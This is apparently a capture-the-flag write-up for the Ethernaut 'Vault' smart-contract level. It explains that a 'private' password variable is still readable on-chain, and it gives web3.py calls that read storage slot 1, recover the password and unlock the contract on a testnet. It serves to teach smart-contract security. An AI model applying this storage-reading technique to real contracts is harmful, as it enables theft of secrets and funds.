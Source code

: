 # Vault

## Objectives

Unlock the vault to pass the level!

## Solution

Sensitive data like passwords are not safe to store on the blockchain. Even in private variables, *Especially* if we have the source code of the contract, which is likely to be public in order to increase transparency and confidence in the piece of software, as the blockchain deals with actual money and as users we should always assume a closed source contract is trying to steal our funds.

In this case, the state variables are stored in the contract storage, and because the variable `password` is a 32 byte piece of data, it will always fill an entire slot, making its position very predictable in the 2nd slot of the contract, as the 2nd state variable defined.

In this case, we can easily use the function `get_storage_at()` on web3.py to see what the password is by looking up in the 2nd storage slot. Then we can optionally convert it to text to see what the password is. In this case, the password is:

```python
>>> web3.toText(web3.eth.get_storage_at(vault.address, '0x01').hex())
'A very strong secret password :)'
```

## How I did it

1. Get the password from the contract's storage

```python
password = web3.eth.get_storage_at(EthernautInstances['vault'], '0x01')
```

2. Unlock the vault using the password

```python
vault.unlock(password, _from)
```

Block explorer: https://rinkeby.etherscan.io/tx/0x03ec2e81ed977af2394d251f6fba6f25af30fb36bbcaaa98e59f04c40a57c81f

3. Check if the vault is locked through the `locked` state variable

```python
locked_assertion = vault.locked() == False
print(f'Is the vault unlocked? {locked_assertion}')
```

### Submission transaction

Block explorer: https://rinkeby.etherscan.io/tx/0xfc76f78a068bb6b02333b7c64024f7416c658feeea3ac2fd6e51217db3b138c3
